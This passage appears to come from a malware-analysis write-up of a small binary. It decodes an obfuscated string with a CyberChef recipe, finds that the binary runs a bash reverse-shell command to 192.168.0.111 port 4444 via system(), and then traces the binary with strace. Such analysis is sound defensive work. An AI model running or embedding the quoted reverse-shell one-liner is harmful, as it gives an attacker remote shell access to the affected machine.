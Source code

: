 ![cyberchef](files/images/cyberchef.png)

The recipe can be found [here](https://gchq.github.io/CyberChef/#recipe=Swap_endianness('Hex',8,false)From_Hex('Auto')ROT13(true,true,false,13)&input=MHgyMDcwMmQyMDc1NjY2ZTZmCjB4NzYyZDIwNzU2NjZlNmYyNwoweDY5NzI3MTJmMjAyNjNlMjAKMHgzMjM5MzEyZjYzNzA2NzJmCjB4MzEyZTMwMmUzODM2MzEyZQoweDIwMzQzNDM0MzQyZjMxMzEKMHgzMTI2M2UzMAoweDI3).

This suggests that the string `bash -c 'bash -i >& /dev/tcp/192.168.0.111/4444' 0>&1` gets passed as input to the `system` function which then executes it to establish a reverse shell connection.

## Dynamic Analysis

For dynamic analysis, we can utilize tools such as `strace` or `ltrace` to monitor system calls and library calls made by the binary during runtime. Additionally, we can use tools like `Wireshark` or `tcpdump` to monitor network traffic generated by the binary.

To look for the system calls made by the binary, we can use `strace` like following:

```
$ strace ./main        
execve("./main", ["./main"], 0x7ffddfbd72d0 /* 57 vars */) = 0
brk(NULL)                               = 0x558fcb30e000

<SNIP>

clone3({flags=CLONE_VM|CLONE_VFORK, exit_signal=SIGCHLD, stack=0x7f9504944000, stack_size=0x9000}, 88) = 3874
munmap(0x7f9504944000, 36864)           = 0
rt_sigprocmask(SIG_SETMASK, [CHLD], NULL, 8) = 0
wait4(3874, bash: connect: Connection refused
bash: line 1: /dev/tcp/192.168.0.111/4444: Connection refused

<SNIP>

exit_group(0)                           = ?
+++ exited with 0 +++
```
